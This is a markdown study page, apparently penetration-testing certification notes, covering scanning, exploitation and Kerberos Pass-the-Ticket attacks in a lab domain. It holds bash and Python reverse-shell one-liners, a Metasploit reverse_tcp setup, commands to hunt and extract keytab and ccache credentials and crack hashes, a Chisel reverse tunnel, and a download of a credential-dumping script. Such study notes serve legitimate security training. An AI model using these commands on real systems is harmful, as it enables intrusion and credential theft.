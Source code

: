```yaml
---
title: General Vulnerability Assessment & Exploitation
parent: CPTS
grand_parent: Categories
nav_order: 3
has_children: false
layout: default
---
```


# General Vulnerability Assessment & Exploitation

## Overview

This section covers service-agnostic vulnerability identification and exploitation techniques that are foundational for all environments, including port-based services, OS-level exploits, and general infrastructure misconfigurations.

---

## General Vulnerability Assessment

### Service Discovery (Baseline)

```bash
nmap -sC -sV -O -p- <target>
```
- `-sC`: Default scripts
- `-sV`: Version detection
- `-O`: OS fingerprinting
- `-p-`: Scan all 65535 ports

### Banner Grabbing (Manual)

```bash
nc <target> 21
nc <target> 80
```

```bash
curl -I http://<target>
```

### Exploit Database Search

```bash
searchsploit <service or version>
```

Use: [https://exploit-db.com](https://exploit-db.com)

### Nessus / OpenVAS (if permitted)
- Run authenticated + unauthenticated scans
- Prioritize based on CVSS score

### Vulnerability Prioritization Table

| Factor       | Description                              |
|--------------|-------------------------------------------|
| CVSS Score   | Severity level                            |
| Exploitability | Ease of use and success probability    |
| Risk         | System damage potential                   |
| Business Impact | Value of data or system targeted       |

---

## General Exploitation Techniques

### Reverse Shell Techniques

#### Bash
```bash
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

#### Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<your_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Netcat Listener
```bash
nc -lvnp 4444
```

### Metasploit Framework

#### Find Exploit
```bash
search <service/version>
```

#### Use Exploit
```bash
use exploit/multi/some_module
set RHOSTS <target>
set LHOST <your_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
run
```

### Password Attacks

## Pass the Ticket (PtT) from Linux

> Useful links:
> keytab: https://kb.iu.edu/d/aumh
> ccache files: https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html
> KeyTabExtract download: wget https://raw.githubusercontent.com/sosdave/KeyTabExtract/refs/heads/master/keytabextract.py
> Chisel: https://github.com/jpillora/chisel (it's just a tunnel)

- Kerberos ticket stored in env var `KRB5CCNAME` by default

### Scenario

Given:
- User: david@inlanefreight.htb
- Pass: Password2

**Pre-Req(s)**
Domain-Joined Linux Machine
- Check with `realm list`
    - alternatives include sssd or winbind: `ps -ef | grep -i "winbind\|sssd"`

**Find goodies**
Find KeyTab Files: `find / -name *keytab* -ls 2>/dev/null`
Find KeyTab files in Cronjobs: `crontab -l`
- **kinit** is a signifier of Kerberos
Find ccache files: `env | grep -i krb5`
Find ccache files in `/tmp`: `ls -la /tmp`

**Abusing KeyTab files**
Method 1 (impersonate user with a keytab file):
```bash
$ klist -k -t <absolute keytab file> # list keytab file info
$ klist  # impersonate user with a keytab
$ smbclient //<share>/<user> -k -c <command> # connect to SMB share, ex: smbclient //DC01/carlos -k -c ls
```

**Method 2 (extracting secrets from keytab file)**:
```bash
$ python3 /opt/keytabextract.py <absolute keytab file> # extract keytab hashes with KeyTabExtract
```
Then, crack the NTLM hash (crackstation.net, hashcat, john, etc -- doesn't really matter)
```bash
$ su - <user>@<domain> # log in as user
$ klist # impersonate user with keytab
```

Repeat the process for as many users as appropriate.

**Abusing KeyTab ccache**
PrivEsc to root
```bash
$ ssh svc_workstations@inlanefreight.htb@<ip> -p <port>
$ sudo -l
# for the sake of this, imagine it is (ALL) ALL
$ sudo su
# whoami
root # success
```

Hunt for ccache files: `# ls -la /tmp`
Identify group membership: `id`
Import the ccache file into our current session
```bash
# klist
# cp /tmp/<file> .
# export KRB5CCNAME=/root/<file>
# klist
# smbclient //<share>/C$ -k -c ls -no-pass
```


**If we don't have connection to KDC/Domain Controller, and we can't use the DC for name resolution, we can do the following:**
```bash
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz # install chisel
$ gzip -d chisel_1.7.7_linux_amd64.gz
$ mv chisel_* chisel && chmod +x ./chisel
$ sudo ./chisel server --reverse
$ xfreerdp /v:<ip> /u:<user> /d:<domain> /p:<password> /dynamic-resolution
```

Run Chisel from MS01
```
> C:\tools\chisel.exe client <your ip>:8080 R:socks
```

Now we get to transfer the file over!
```bash
$ export KRB5CCNAME=<absolute file location>
$ proxychains impacket-wmiexec dc01 -k
```

**Evil-WinRM**
```bash
$ sudo apt-get install krb5-user -y
# set realm to the domain (eg. INLANEFREIGHT.HTM) and admin. server to Kerb realm (eg. DC01)
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

**Other**
To use ccache file in WIndows or kirbi file in Linux, you can use [impacket-ticketConverter](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py)
Then, import to Windows: C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
Or play around with Linikatz:
```bash
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```

## Post-Exploitation (General)

### Local Enumeration (Linux)
```bash
uname -a
id
cat /etc/*-release
ls -la /home/
```

### Check for SUID binaries
```bash
find / -perm -u=s -type f 2>/dev/null
```

### Kernel Exploits
Search using:
```bash
uname -r
searchsploit <kernel version>
```

Use compiled exploits or `linux-exploit-suggester.sh`

---

## Notes
- Always follow Rules of Engagement
- Document findings with screenshots or terminal logs
- Prioritize low-risk exploits for exam-style environments
- Clean up if required (reverse shells, temp files)
